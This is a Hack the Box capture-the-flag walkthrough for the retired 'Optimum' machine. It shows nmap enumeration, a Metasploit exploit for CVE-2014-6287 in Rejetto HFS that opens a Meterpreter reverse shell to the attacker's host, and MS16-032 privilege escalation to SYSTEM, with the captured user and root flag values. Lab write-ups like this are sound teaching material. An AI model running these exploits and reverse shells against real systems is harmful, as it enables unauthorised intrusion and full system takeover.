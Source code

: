 ```yaml
---
title: Optimum, Hack the Box CTF Walkthrough
lead: Exploiting CVE-2014-6287, Rejetto HTTP File Server (HFS) 2.3.x Remote Command Execution
categories: CTF
image: /assets/img/posts/2021-03-04-Optimum-hack-the-box-walkthrough/Optimum.png
layout: post
description: ""
date:   2021-03-04 20:01:21 -0400
last-updated: 2021-03-04 20:01:21 -0400
categories: ctf
author: Tyler Butler
desription: "Optimum is an easy level HTB challenge from the HTB archives. This challenge requires initial user access through a remote command execution vulnerability and local privilege escalation"
card: card-2
navheader: posts
---
```


Optimum is a easy level retired CTF from Hack the Box. To root this machine, I gained initial access by exploiting a remote command execution vulnerability (CVE-2014-6287) and escalated privileges to root through a local windows privilege escalation vulnerability (CVE-2016-0099).  

## Enumeration

To start, I used nmap to enumerate open services and running ports.  The resulting output revealed the target server was running the HttpFileServer, version 2.3.  

```bash
┌──(kali㉿kali)-[~/Documents/htb/OptimumRETIRED]
└─$ sudo nmap -sV -A -O --top-ports 200 10.10.10.8                                                                                           1 ⨯
[sudo] password for kali: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-04 20:01 EST
Nmap scan report for 10.10.10.8
Host is up (0.026s latency).
Not shown: 199 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows Server 2012 (91%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 7 Professional (87%), Microsoft Windows 8.1 Update 1 (86%), Microsoft Windows Phone 7.5 or 8.0 (86%), Microsoft Windows 7 or Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 or Windows 8.1 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   27.39 ms 10.10.14.1
2   27.77 ms 10.10.10.8

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.00 seconds
```  

## Vulnerability Identification  

Research into the HttpFileServer version 2.3 revealed its vulnerable to CVE-2014-6287, a remote command execution  vulnerability which has several public exploits available. One of these exploits is available in a metasploit module, so I launched metasploit and configured the necessary options.  

```bash
msf6 > search CVE-2014-6287

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution
```  

```bash
msf6 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.14.13:4444 
[*] Using URL: http://0.0.0.0:8081/IfzP0QI2SL
[*] Local IP: http://192.168.232.8:8081/IfzP0QI2SL
[*] Server started.
[*] Sending a malicious request to /
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
/usr/share/metasploit-framework/modules/exploits/windows/http/rejetto_hfs_exec.rb:110: warning: URI.escape is obsolete
[*] Payload request received: /IfzP0QI2SL
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 1 opened (10.10.14.13:4444 -> 10.10.10.8:49162) at 2021-03-04 20:09:00 -0500

[!] Tried to delete %TEMP%\OMHaX.vbs, unknown result



[*] Server stopped.

meterpreter > 
```   

## Locate User Flag  

Using the meterpreter shell, I located the user flag and read its contents.  

```bash
meterpreter > ls
Listing: C:\Users\kostas\Desktop
================================

Mode              Size    Type  Last modified              Name
----              ----    ----  -------------              ----
40777/rwxrwxrwx   0       dir   2021-03-11 05:11:20 -0500  %TEMP%
100666/rw-rw-rw-  282     fil   2017-03-18 07:57:16 -0400  desktop.ini
100777/rwxrwxrwx  760320  fil   2014-02-16 06:58:52 -0500  hfs.exe
100444/r--r--r--  32      fil   2017-03-18 08:13:18 -0400  user.txt.txt

meterpreter > cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```  

## Post Exploitation Enumeration    

The CVE-2014-6287 exploit opened the meterpreter shell as the kostas user. To read the contents of the Admin flag, I would need to escalate to SYSTEM privilege. First, I attempted the `getsystem` meterpreter command, but this failed. I started to gather additional details about the target, starting with the meterpreter `sysinfo` command.  

```bash
meterpreter > sysinfo
Computer        : OPTIMUM
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : el_GR
Domain          : HTB
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 
```  

Researching for local privilege escalation vulnerabilities specific for Windows 2012 R2 (6.3 Build 9600) revealed CVE-2016-0099. Fortunately, this too has a metasploit module available. I configured the module and launched the exploit.   

```bash
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > run

[*] Started reverse TCP handler on 10.10.14.13:4441 
[+] Compressed size: 1016
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\KqxoHA.ps1...
[*] Compressing script contents...
[+] Compressed size: 3592
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2112

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2080
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

PykxFdTyo5bVOiBbBCJ1ZoZo9QIdtpa6
[+] Executed on target machine.
[*] Sending stage (175174 bytes) to 10.10.10.8
[*] Meterpreter session 2 opened (10.10.14.13:4441 -> 10.10.10.8:49166) at 2021-03-04 20:41:02 -0500
[+] Deleted C:\Users\kostas\AppData\Local\Temp\KqxoHA.ps1

meterpreter > shell
```  

## Locate Root Flag  

Using the meterpreter `shell` command, I dropped into the windows cmd shell and searched manually for the root flag.   

```bash
C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  02:14 ��    <DIR>          .
18/03/2017  02:14 ��    <DIR>          ..
18/03/2017  02:14 ��                32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.899.729.920 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
C:\Users\Administrator\Desktop>
```